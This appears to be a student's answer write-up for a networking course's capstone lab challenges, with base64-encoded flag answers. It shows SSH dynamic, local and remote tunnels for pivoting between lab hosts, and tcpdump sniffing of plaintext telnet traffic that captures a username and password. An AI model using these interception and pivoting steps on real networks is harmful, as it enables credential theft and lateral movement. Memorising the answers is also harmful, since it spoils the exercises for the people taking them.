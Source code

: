 What is the answer to the question referenced in “Hint-06a”? Provide the answer converted to BASE64.

Hint
Conduct your scan in the range of 7000-8000 to minimize the scan time.

##### Ans #####

Change TTL as per the hint:
iptables -t mangle -A POSTROUTING -j TTL --ttl-set 255

ran your scans 

Ans -> Nzc3Nwo=


#### Capstone - 07 Credential Farming 10 ####

What is the answer to the question referenced in “Hint-07a”? Provide the answer (exactly as you found it) converted to BASE64
You will use the phrase as your password for this system only.

Hint-07a: SSH is running on a higher port but it is not accessible from the outside. It also seems to use different username and password than what the other systems use. How can we intercept these credentials? Maybe another system has a tool that can help us. The Flag for this system is the password you find converted to BASE64. Credentials for this system will be exactly what you did. 

##### Ans #####

Build a dynamic channel 

ssh net4_student11@10.50.41.66 -p 7777 -D 9050

Run 

tcpdump -A port 23

wait for the passwords

username: net3_comrade15@capstone-07
password: Netflix and Chill

echo "Netflix and Chill" | base64

#### Capstone - 07 Credential Farming 10 ####

What is the Answer referenced in “Hint-08a.png”? Provide the answer converted to BASE64.

##### Ans #####

    # Create a local tunnel to be used for telnet. Local tunnel to host A 
	ssh net4_student11@10.50.41.66 -p 7777 -L 41103:10.2.2.7:23
	telnet localhost 41103
        username: net3_comrade15
        password: Netflix and Chill

	# Let's create a remote tunnel back to A from B
	ssh net4_student11@10.2.2.6 -p 7777 -R 41104:10.2.2.7:2222   
